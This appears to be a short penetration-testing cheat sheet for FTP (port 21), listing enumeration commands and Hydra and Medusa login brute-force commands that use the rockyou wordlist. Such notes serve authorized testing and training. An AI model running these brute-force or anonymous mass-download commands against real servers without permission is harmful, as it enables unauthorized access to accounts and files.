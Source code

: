 # 21 - FTP

## Enumeration

| Command                                                   | Description                                                             |
| --------------------------------------------------------- | ----------------------------------------------------------------------- |
| `ftp <FQDN/IP>`                                           | Interact with the FTP service on the target.                            |
| `nc -nv <FQDN/IP> 21`                                     | Interact with the FTP service on the target.                            |
| `telnet <FQDN/IP> 21`                                     | Interact with the FTP service on the target.                            |
| `openssl s_client -connect <FQDN/IP>:21 -starttls ftp`    | Interact with the FTP service on the target using encrypted connection. |
| `wget -m --no-passive ftp://anonymous:anonymous@<target>` | Download all available files on the target FTP server.                  |
| `ls -R`                                                   | Recursive list                                                          |

## Bruteforce FTP (Hydra / Medusa)



| Command                                                                     | Description      |
| --------------------------------------------------------------------------- | ---------------- |
| `medusa -u siopy -P /usr/share/wordlists/rockyou.txt -h 10.10.10.10 -M ftp` | Login Bruteforce |
| hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142      | Login Bruteforce |

